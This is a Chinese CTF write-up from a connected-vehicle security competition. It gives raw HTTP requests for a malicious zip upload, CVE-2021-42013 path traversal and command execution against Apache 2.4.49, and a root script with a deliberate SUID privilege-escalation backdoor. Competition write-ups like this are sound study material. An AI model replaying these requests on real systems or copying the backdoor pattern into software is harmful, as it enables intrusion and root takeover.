


+++
title= "招商铸盾2025车联网初赛"
slug= "shield-2025-iov-prelim"
description= ""
date= "2025-08-20T13:36:21+08:00"
lastmod= "2025-08-20T13:36:21+08:00"
image= ""
license= ""
categories = ["赛题"]
tags = ["php"]

+++

## firmware-update-system-web

admin\admin123登录后台，看到Apache/2.4.54，直接上传恶意文件压缩的包

```http
POST /upload.php HTTP/1.1
Host: 124.133.253.44:32855
Content-Length: 375
Cache-Control: max-age=0
Origin: http://124.133.253.44:32855
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5sNiwaeGukG57rn
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://124.133.253.44:32855/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=241766c8d3ec251b43f92523c34b2def
Connection: close

------WebKitFormBoundaryD5sNiwaeGukG57rn
Content-Disposition: form-data; name="firmware"; filename="1.zip"
Content-Type: application/x-zip-compressed

PK

```



## 车辆管理系统渗透

NDAY一个，Apache/2.4.49 (Unix) **CVE-2021-42013** 这个洞我上个月还打过，只不过能打的是不能getshell的，现在是可以getshell的

```http
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 124.133.253.44:32892
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://124.133.253.44:32892/vehicle/list.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=241766c8d3ec251b43f92523c34b2def
Connection: close


```

```http
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 124.133.253.44:32892
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://124.133.253.44:32892/vehicle/list.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=241766c8d3ec251b43f92523c34b2def
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

echo Content-Type: text/plain; echo; whoami; uname
```

权限不够，查看进程，发现有一个python文件在home

```python
#!/usr/bin/env python3
import os
import subprocess
import time
import sys

def main():
    """车联网系统监控脚本 - 以root权限运行"""
    log_file = "/var/log/apache2/vehicle_monitor.log"
    
    # 确保以root权限运行
    if os.geteuid() != 0:
        print("This script must be run as root")
        sys.exit(1)
    
    while True:
        try:
            # 检查系统资源使用情况
            disk_result = subprocess.run(['df', '-h'], capture_output=True, text=True)
            memory_result = subprocess.run(['free', '-h'], capture_output=True, text=True)
            
            timestamp = time.strftime('%Y-%m-%d %H:%M:%S')
            
            with open(log_file, "a") as f:
                f.write(f"\n[{timestamp}] Vehicle System Monitor Report\n")
                f.write("="*60 + "\n")
                f.write("Disk Usage:\n")
                f.write(disk_result.stdout)
                f.write("\nMemory Usage:\n")
                f.write(memory_result.stdout)
                f.write("\n" + "="*60 + "\n")
            
            # 检查是否存在提权标记文件
            if os.path.exists("/tmp/escalate"):
                # 执行提权操作
                os.system("chmod +s /bin/bash")
                os.system("chmod +s /bin/sh")
                
                # 创建提权成功标记
                with open("/tmp/escalate_success", "w") as f:
                    f.write("Privilege escalation completed\n")
                
                # 删除提权标记文件
                os.remove("/tmp/escalate")
                
                # 记录提权操作
                with open(log_file, "a") as f:
                    f.write(f"[{timestamp}] SECURITY: Privilege escalation executed\n")
                    
        except Exception as e:
            # 记录错误但不中断运行
            with open(log_file, "a") as f:
                f.write(f"[{time.strftime('%Y-%m-%d %H:%M:%S')}] ERROR: {str(e)}\n")
            
        time.sleep(60)  # 每分钟检查一次

if __name__ == "__main__":
    main()
Linux
```

创建一下文件就能直接提权



```http
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 124.133.253.44:32892
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://124.133.253.44:32892/vehicle/list.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=241766c8d3ec251b43f92523c34b2def
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

echo Content-Type: text/plain; echo; /bin/bash -p -c "cat /root/flag.txt"; uname
```

真是惬意，回头看了看队友写的pwn脚本，简直美如画😻，真是羡慕

最后依旧季军，线下看nop发挥了
